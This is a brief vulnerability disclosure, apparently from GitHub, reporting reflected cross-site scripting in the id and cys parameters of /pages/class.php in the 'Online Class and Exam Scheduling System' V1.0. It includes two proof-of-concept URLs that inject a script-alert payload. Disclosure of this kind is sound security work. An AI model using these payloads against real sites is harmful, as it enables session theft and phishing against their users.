 # NAME OF AFFECTED PRODUCT(S)

Online Class and Exam Scheduling System

# VERSION(S)

V1.0

# submitter

lvzhouhang

# Vulnerable File

/pages/class.php

# Software Link

https://download.code-projects.org/details/93487762-3e23-48ab-a56f-af5e61441ee1

# Vulnerability Type

Cross Site Scripting

in /pages/class.php   `id`and `cys` Parameters have Cross Site Scripting(XSS)

A malicious attacker can use this vulnerability to obtain administrator login credentials or phishing websites

# POC

~~~
pages/class.php?id="><script>alert(1)</script><"
~~~

~~~
pages/class.php?cys="><script>alert(1)</script><"
~~~

